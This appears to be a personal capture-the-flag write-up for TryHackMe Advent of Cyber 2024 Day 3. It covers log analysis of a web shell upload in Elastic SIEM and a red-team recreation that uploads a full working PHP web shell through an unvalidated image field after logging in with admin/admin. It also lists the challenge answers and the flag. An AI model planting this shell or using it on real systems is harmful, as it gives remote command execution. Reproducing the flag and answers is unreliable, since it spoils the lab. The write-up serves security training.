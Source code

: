 # 🎄 TryHackMe Advent of Cyber 2024 – Day 3: Log Analysis

## Objectives 🎯

1. Investigate suspicious activity on Frosty Pines Resort’s web server using Elastic SIEM.
2. Identify how a web shell was uploaded and accessed.
3. Exploit the same vulnerability to recreate the attack and retrieve the hidden flag.

## Steps 🚀

### Step 1: Investigating the Logs (Blue Team)

#### Setting Up Elastic SIEM
1. Logged into **Kibana** at `http://MACHINE_IP:5601`.
2. Selected the **frostypines-resorts** index under the **Discover** tab.
3. Adjusted the timeframe to:
   ```
   October 1, 2024, 00:00 – October 3, 2024, 20:00
   ```
4. Added relevant fields:
   - `requests`
   - `clientip`
5. Searched for `"shell.php"` in the `requests` field.

#### Findings
- **Where was the web shell uploaded to?**  
  **Answer:** `/media/images/rooms/shell.php`
- **What IP address accessed the web shell?**  
  **Answer:** `10.11.83.34`

### Step 2: Exploiting the RCE Vulnerability (Red Team)

#### Exploit Steps
1. **Edit Hosts File:**
   - Added `MACHINE_IP frostypines.thm` to `/etc/hosts`.
2. **Log In:**
   - Accessed `http://frostypines.thm` and logged in using:
     - **Username:** admin@frostypines.thm
     - **Password:** admin
3. **Prepare Web Shell:**
   - Created `shell.php` with the following code:
     ```
     <html>
     <body>
     <form method="GET" name="<?php echo basename($_SERVER['PHP_SELF']); ?>">
     <input type="text" name="command" autofocus id="command" size="50">
     <input type="submit" value="Execute">
     </form>
     <pre>
     <?php
         if(isset($_GET['command'])) 
         {
             system($_GET['command'] . ' 2>&1'); 
         }
     ?>
     </pre>
     </body>
     </html>
     ```
4. **Upload the Web Shell:**
   - Uploaded `shell.php` as the room image under “Add Room.”
5. **Locate the Shell:**
   - Confirmed the upload at:  
     `http://frostypines.thm/media/images/rooms/shell.php`
6. **Retrieve the Flag:**
   - Accessed the shell and executed:
     ```
     cat flag.txt
     ```

#### Result
- **What is the content of the flag.txt?**  
  **Answer:** `THM{Gl1tch_Was_H3r3}`

## Key Findings 🔑

1. **Upload Location:** The web shell was uploaded to `/media/images/rooms/shell.php`.
2. **Access Point:** The attacker’s IP was `10.11.83.34`.
3. **Exploit Success:** By recreating the attack, I retrieved the flag using the web shell.

## Lessons Learned 🌟

### Blue Team Insights
1. **Log Analysis Matters:** Elastic SIEM made it efficient to trace the attacker’s actions and pinpoint suspicious activity.
2. **Correlate Data:** Adding context with fields like `requests` and `clientip` accelerated the investigation.
3. **Monitoring Uploads:** Unvalidated file uploads are a significant security gap.

### Red Team Insights
1. **Web Shell Simplicity:** A basic PHP script can compromise a system, emphasizing the importance of validating uploaded files.
2. **Default Credentials Are Dangerous:** The admin account used weak credentials (`admin/admin`), making it an easy target.
3. **Defense Against Exploits:** Proper input validation and access controls could have mitigated this attack.

### Tools and Techniques 🛠️

1. **[Elastic SIEM](https://www.elastic.co/security/siem):** Used to investigate web server logs and identify attacker activity.  
2. **Text Editor:** Created the PHP web shell to exploit the vulnerability.  
3. **Browser:** Navigated and interacted with the Frosty Pines Resort website during the attack.  

## Final Thoughts 🎁

Day 3 highlighted the importance of both offensive and defensive skills in cybersecurity. Investigating the logs with Elastic SIEM provided clear insights into the attack, while exploiting the vulnerability demonstrated how impactful simple security oversights can be. Excited to tackle Day 4!

### Answers ✅
1. **Where was the web shell uploaded to?**  
   **Answer:** `/media/images/rooms/shell.php`
2. **What IP address accessed the web shell?**  
   **Answer:** `10.11.83.34`
3. **What is the content of the flag.txt?**  
   **Answer:** `THM{Gl1tch_Was_H3r3}`

## Table of Contents 📚

- [Main Page](README.md)
- [Day 1: OPSEC Challenge](day1.md)
- [Day 2: Log Analysis](day2.md)
- **Day 3: Log Analysis**
- [Day 4: Atomic Red Team](day4.md)
- [Day 5: XXE](day5.md)
- [Day 6: Sandboxes](day6.md)
- [Day 7: AWS Sandboxes](day7.md)
- [Day 8: Shellcodes](day8.md)
- [Day 9: Risk Assessment](day9.md)
- [Day 10: Phishing](day_10.md)
- [Day 11: Wi-Fi Attacks](day_11.md)
- [Day 12: Web Timing Attacks](day_12.md)
- [Day 13: WebSockets](day_13.md)
- [Day 14: Certificate Mismanagement](day_14.md)
- [Day 15: Active Directory](day_15.md)
- [Day 16: Azure Exploitation](day_16.md)
- [Day 17: Log Analysis](day_17.md)
- [Day 18: Prompt Injection](day_18.md)
- [More Days to Come!](#)
